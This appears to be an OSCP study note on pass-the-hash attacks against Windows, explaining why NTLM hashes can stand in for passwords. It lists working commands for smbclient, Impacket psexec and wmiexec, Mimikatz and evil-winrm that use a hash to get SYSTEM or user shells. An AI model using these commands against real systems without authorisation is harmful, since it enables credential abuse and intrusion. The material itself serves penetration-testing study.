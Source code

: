 ```yaml
---
{"dg-publish":true,"permalink":"/1-oscp/7-password-attacks/6-pass-the-hash/"}
---
```


- PtH is a techique where a valid combination of username and a NTLM hash will authenticate a user. This is without a plaintext password.
- It is possible because NTLM/LM hashes are not salted and remain static between sessions.
- They can even be used to authenticate to another machine with the same user and password.
- Note: The targeted user most often needs to be Administrator, or be configured in a certain way to obtain successful code execution. This is a thing since Windows Vista.
- PtH can be performed against protocols that support authentication with NTLM hashes, such as: SMB, RDP, WinRM.
- Tools which can perform PtH include: smbclient, CrackMapExec, psexec.py (Impacket), and Mimikatz.

------------

### PtH Attack with SMBClient:
```bash
smbclient \\\\192.168.X.X\\secrets -U Administrator --pw-nt-hash <hash>
```

------------

### PtH NT_AUTHORITY Shell with PSExec:
- PSExec searches for a writable share and uploads an executable to it. The executable then registers as a Windows service and starts running, resulting in a shell always as SYSTEM.
- If not command is specified to be run in the end a cmd-shell will spawn instead.
- Hash arguments are read as LMHash:NTHash. If only one of them is used fill the other with 32 0's.
- Example which will spawn a shell from a NTLM hash:
```powershell
impacket-psexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.X.X
```

----------
### PtH User Shell with WMIExec:
- Obtains a shell as the user used for authentication and not SYSTEM.
- Example:
```powershell
impacket-wmiexec -hashes 00000000000000000000000000000000:7a38310ea6f0027ee955abed1762964b Administrator@192.168.X.X
```

------------
### PtH with Mimikatz:
```
mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:… /run:”powershell -w hidden”

Alt.
mimikatz sekurlsa::pth /user:Administrator /domain:. /ntlm:…
.\PsExec.exe \\172.23.1.100 cmd.exe
```

-------------
### PtH with Evil-WinRM:
``` bash
evil-winrm -i 192.168.X.X -u <user> -H <ntlm-hash>
```